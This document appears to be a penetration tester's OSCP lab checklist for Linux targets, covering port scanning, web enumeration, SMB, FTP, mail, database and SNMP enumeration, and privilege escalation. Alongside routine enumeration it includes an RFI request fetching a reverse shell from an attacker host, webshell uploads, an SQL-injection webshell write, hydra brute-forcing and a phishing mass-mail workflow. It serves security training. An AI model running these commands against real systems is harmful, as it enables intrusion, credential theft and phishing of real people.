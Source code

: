 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Linux

{% hint style="info" %}
Based on the following PG Practice, PG Play, and PEN-200 boxes: Amaterasu, Apex, Astronaut, BBScute, BitForge, Blogger, Bratarina, Bullybox, ClamAV, Clue, Cockpit, Exfiltrated, Extplorer, Fanatastic, Fired, Flu, FunboxEasyEnum, Gaara, GlasgowSmile, Hawat, Hetemit, Hunit, LaVita, Levram, Loly, Mantis, Marketing, Mzeeav, Nibbles, Nukem, Payday, PC, Pebbles, Pelican, Peppo, Postfish, Potato, QuackerJack, Readys, Roquefort, Scrutiny, Snookums, Sorcerer, SpiderSociety, SPX, Stapler, Sybaris, Vmdak, Walla, WallpaperHub, Wombo, Workaholic, Xposedapi, Zab, ZenPhoto, Zipper,  Crystal (OSCP A), Aero (OSCP A), Berlin (OSCP B), Kiero (OSCP B),  Frankfurt (OSCP C), and Charlie (OSCP C).
{% endhint %}

## Foothold

<details>

<summary>Port Scan</summary>

The `nmap-scan` script can be found [here](https://github.com/CSpanias/ctf-scripts/tree/main?tab=readme-ov-file#nmap-scansh).

```bash
$ sudo nmap-scan <target-IP>
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/web">HTTP(S)</a></summary>

* [ ] [Dirbust](https://x7331.gitbook.io/boxes/web/dirbusting) HTTP(S) ports with a [directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) (plus server-specific extensions) and a [file list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt)&#x20;

{% code overflow="wrap" %}
```bash
# Dirbust with a directory list
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic -ac -c -u http://access/FUZZ -e .aspx,.php,
​


​# Dirbust with a file list
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -ic -ac -c -u http://access/FUZZ
```
{% endcode %}

* [ ] Application-specific PoCs (RCE, LFI, RFI)

{% code overflow="wrap" %}
```bash
# CLI tool
searchsploit <appName> <version>

# Google dork
site:github.com <appName> exploit poc

# RFI revshell
curl --path-as-is -s "http://10.10.10.10:4443/site/index.php?page=http://192.168.45.241:443/revshell_ivan.php" --proxy 127.0.0.1:8080
```
{% endcode %}

* [ ] [File Uploads](https://x7331.gitbook.io/boxes/web/file-uploads)
* [ ] Default/Weak Creds

```bash
uv run creds search <appName>
```

* [ ] BFA

{% code overflow="wrap" %}
```bash
# POST request
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER^&password=^PASS^:F=403'

# POST request (base64-encoded credentials)
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER64^&password=^PASS64^:F=403'
```
{% endcode %}

* [ ] [WebDAV](https://x7331.gitbook.io/boxes/web/webdav)

{% code overflow="wrap" %}
```bash
# Connect to WebDAV
$ cadaver http://x7331
Authentication required for hutch on server 'x7331':
Username: x7331
Password:
# Upload a webshell
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx

# Upload a webshell directly
$ curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u x7331:Pass123!
```
{% endcode %}

* [ ] [Custom wordlists](https://x7331.gitbook.io/boxes/tools/wordlists)

```bash
# Create a userlist based on the site users
username-anarchy -i site_users > anarchy_output

# Create a passlist based on the site content
cewl --write cewl_output http://192.168.202.21/
```

* [ ] [Git repositories](https://x7331.gitbook.io/boxes/web/devops/git-tools)

```bash
# Dump the repository
git-dumper http://target.lab/.git git_repo

# Write all commits to a file
git log | grep commit | cut -d " " -f2 | xargs git show > commits
​
# Open the commits file with VSCode
code commits
```

* [ ] [SQLi](https://x7331.gitbook.io/boxes/web/injections/sqli) (`sqlmap` is allowed for enumeration but not for exploitation)

{% code overflow="wrap" %}
```bash
# Enumeration
sqlmap -r login.req --batch
```
{% endcode %}

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp">Unique Ports</a></summary>



</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] Known vulnerabilities

```bash
sudo nmap -script=smb-vuln\* -p445 10.10.10.10
```

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
$ uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
$ nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999

# Connect and download all files
$ smbclient //target/share -p 12445
Password for [WORKGROUP\x7331]:
Anonymous login successful        
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/shares/21-ftp">FTP</a></summary>

* [ ] Anonymous login

{% code overflow="wrap" %}
```bash
# Anonymous login
ftp anonymous@target
ftp ftp@target
```
{% endcode %}

* [ ] BFA

```bash
hydra -l <user> -P <passlist> ftp://<target>
```

* [ ] Enumerate directories

```bash
# Download dir
wget -r ftp://ftp@target_directory
```

* [ ] Upload files

```bash
ftp> put revshell_ivan.php
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/mail/25-587-smtp">SMTP</a>, <a href="https://x7331.gitbook.io/boxes/services/tcp/mail/110-995-pop3">POP3</a></summary>

* [ ] Username enumeration (SMTP)

```bash
smtp-user-enum -M VRFY -U anarchy_output -t 10.10.10.10
```

* [ ] Inbox enumeration (POP3)

```bash
$ telnet 10.10.10.10 110
USER x7331
+OK x7331 is known here.
PASS Pass123!
+OK Welcome! 4 messages (4744 bytes)
LIST
+OK 4 messages, 4744 bytes
1 1342
2 963
3 1347
4 1092
RETR 1
```

* [ ] Phising attachments ([library-ms](https://x7331.gitbook.io/boxes/social-engineering/phising#attachment), [libre-office](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/libreoffice), [pdf](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/pdf)) or malicious links

{% code overflow="wrap" %}
```bash
# Email body with a malicious link
$ cat body.txt
Please lick here to register: http://192.168.45.170/login.html

# Send an email to multiple email addresses
$ swaks --to $(cat emails.txt | tr '\n' ',') --from it@target.off --header "Subject: ERP Registration link" --body @body.txt --server 192.168.161.137 --port 25

# Listener to receive the response
$ sudo nc -lvnp 80
```
{% endcode %}

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms">Databases</a></summary>

* [ ] [MySQL/MariaDB](https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/3306-mysql-mariadb)

{% code overflow="wrap" %}
```bash
# Connect
mysql -h kali -u x7331 -pPass123! --skip-ssl

# Webshell
'UNION SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/srv/http/webshell.php';-- 
```
{% endcode %}

* [ ] [PostgreSQL](https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/5432-postgresql)

```bash
# Connect
psql -h 127.0.0.1 -p 5437 -U postgresql -W
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/udp/161-snmp">SNMP</a></summary>

```bash
# Public strings
snmpwalk -v2c -c public <target>

# User-related strings
snmpwalk -v2c -c public <target> 1.3.6.1.4.1

# System-related strings
snmpwalk -v2c -c public <target> 1.3.6.1.2.1.1

# Running processes
snmpwalk -v2c -c public <target> 1.3.6.1.2.1.25.4.2.1.2

# Grep for keywords
snmpwalk -v2c -c public <target> | grep -Ei 'user|admin|name|pass|password'
```

</details>

## Privilege Escalation

<details>

<summary>User Context</summary>

* [ ] [Permissions](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon#users-and-groups), [groups](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/privilege-escalation/groups), and shell history

```bash
$ sudo -l


$ id


$ cat /home/<user>/.bash_history

```

</details>

<details>

<summary>Host Enumeration</summary>

* [ ] [Manual Enumeration](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon)

```bash
# Enumerate SUIDs
find / -type f -perm -u=s 2>/dev/null

# Enumerate capabilities
getcap -r / 2>/dev/null

# Local TCP sockets
netstat -anot

# Cronjobs
cat /etc/crontab

# Environment variables
env

# Sudo version
sudo --version

# Kernel version
uname -a
```

* [ ] [LinPEAS](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pe-scripts#linux)

```bash
$ wget 192.168.45.216:443/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

* [ ] Running processes ([pspy](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pspy), let it run for at least two minutes)

```bash
$ wget 192.168.45.216:443/pspy64
$ chmod +x pspy64
$ ./pspy64
```

* [ ] Passwords

```bash
grep -rH "password"
```

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/3306-mysql-mariadb">MySQL/MariaDB</a></summary>

* [ ] Enumerate tables

```bash
mysql -h 127.0.0.1 -u x7331 -pPass123! --skip-ssl
```

</details>
